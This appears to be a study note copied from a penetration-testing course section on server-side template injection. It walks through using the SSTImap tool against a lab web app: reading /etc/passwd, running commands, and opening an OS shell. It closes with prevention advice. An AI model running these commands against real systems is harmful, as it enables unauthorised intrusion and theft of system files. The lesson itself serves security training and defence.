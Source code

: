 ﻿---
sticker: lucide//book-template
---
This section will showcase tools that can help us identify and exploit SSTI vulnerabilities. Furthermore, we will briefly explore how to prevent these vulnerabilities.

---

## Tools of the Trade

The most popular tool for identifying and exploiting SSTI vulnerabilities isÂ [tplmap](https://github.com/epinna/tplmap). However, tplmap is not maintained anymore and runs on the deprecated Python2 version. Therefore, we will use the more modernÂ [SSTImap](https://github.com/vladko312/SSTImap)Â to aid the SSTI exploitation process. We can run it after cloning the repository and installing the required dependencies:

```shell-session
smoothment@htb[/htb]$ git clone https://github.com/vladko312/SSTImap

smoothment@htb[/htb]$ cd SSTImap

smoothment@htb[/htb]$ pip3 install -r requirements.txt

smoothment@htb[/htb]$ python3 sstimap.py 

    â•”â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•¦â•â•â•â•â•â•â•â•— â–€â–ˆâ–€
    â•‘ â•”â•â•â•â•â•£ â•”â•â•â•â•â•©â•â•â•— â•”â•â•â•â•â•—â–€â•”â•
    â•‘ â•šâ•â•â•â•â•£ â•šâ•â•â•â•â•— â•‘ â•‘ â•‘{â•‘ _ __ ___ __ _ _ __
    â•šâ•â•â•â•â•— â• â•â•â•â•â•— â•‘ â•‘ â•‘ â•‘*â•‘ | '_ ` _ \ / _` | '_ \
    â•”â•â•â•â•â• â• â•â•â•â•â• â•‘ â•‘ â•‘ â•‘}â•‘ | | | | | | (_| | |_) |
    â•šâ•â•â•â•â•â•â•©â•â•â•â•â•â•â• â•šâ•â• â•šâ•¦â• |_| |_| |_|\__,_| .__/
                             â”‚ | |
                                                |_|
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state, and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; engines: 17; legacy_engines: 2
[*] Loaded request body types: 4
[-] SSTImap requires target URL (-u, --url), URLs/forms file (--load-urls / --load-forms) or interactive mode (-i, --interactive)
```

To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test

<SNIP>

[+] SSTImap identified the following injection point:

  Query parameter: name
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:
    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code
```

As we can see, SSTImap confirms the SSTI vulnerability and successfully identifies theÂ `Twig`Â template engine. It also provides capabilities we can use during exploitation. For instance, we can download a remote file to our local machine using theÂ `-D`Â flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

<SNIP>

[+] File downloaded correctly
```

Additionally, we can execute a system command using theÂ `-S`Â flag:

```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

<SNIP>

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Alternatively, we can useÂ `--os-shell`Â to obtain an interactive shell:


```shell-session
smoothment@htb[/htb]$ python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell

<SNIP>

[+] Run commands on the operating system.
Linux $ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Linux $ whoami
www-data
```

---

## Prevention

To prevent SSTI vulnerabilities, we must ensure that user input is never fed into the call to the template engine's rendering function in the template parameter.Â ThisÂ can be achieved by carefully going through the different code paths and ensuring that user input is never added to a template before a call to the rendering function.

Suppose a web application intends to have users modify existing templates or upload new ones for business reasons. In that case, it is crucial to implement proper hardening measures to prevent the takeover of the web server.Â ThisÂ process can include hardening the template engine by removing potentially dangerous functions that can be used to achieve remote code execution from the execution environment.Â Removing dangerous functions prevents attackers from using these functions in their payloads. However, this technique is prone to bypasses. A better approach would be to separate the execution environment in which the template engine runs entirely from the web server, for instance, by setting up a separate execution environment such as a Docker container.

